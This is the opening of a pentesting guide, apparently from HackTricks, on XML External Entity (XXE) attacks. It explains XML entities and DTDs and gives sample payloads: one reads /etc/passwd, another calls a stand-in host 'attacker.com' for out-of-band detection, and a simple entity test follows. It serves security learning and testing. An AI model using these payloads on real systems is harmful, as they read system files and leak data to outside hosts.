 # XXE - XEE - XML External Entity

{{#include ../banners/hacktricks-training.md}}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## XML Basics

XML is a markup language designed for data storage and transport, featuring a flexible structure that allows for the use of descriptively named tags. It differs from HTML by not being limited to a set of predefined tags. XML's significance has declined with the rise of JSON, despite its initial role in AJAX technology.

- **Data Representation through Entities**: Entities in XML enable the representation of data, including special characters like `&lt;` and `&gt;`, which correspond to `<` and `>` to avoid conflict with XML's tag system.
- **Defining XML Elements**: XML allows for the definition of element types, outlining how elements should be structured and what content they may contain, ranging from any type of content to specific child elements.
- **Document Type Definition (DTD)**: DTDs are crucial in XML for defining the document's structure and the types of data it can contain. They can be internal, external, or a combination, guiding how documents are formatted and validated.
- **Custom and External Entities**: XML supports the creation of custom entities within a DTD for flexible data representation. External entities, defined with a URL, raise security concerns, particularly in the context of XML External Entity (XXE) attacks, which exploit the way XML parsers handle external data sources: `<!DOCTYPE foo [ <!ENTITY myentity "value" > ]>`
- **XXE Detection with Parameter Entities**: For detecting XXE vulnerabilities, especially when conventional methods fail due to parser security measures, XML parameter entities can be utilized. These entities allow for out-of-band detection techniques, such as triggering DNS lookups or HTTP requests to a controlled domain, to confirm the vulnerability.
  - `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>`
  - `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://attacker.com" > ]>`

## Main attacks

[**Most of these attacks were tested using the awesome Portswiggers XEE labs: https://portswigger.net/web-security/xxe**](https://portswigger.net/web-security/xxe)

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```
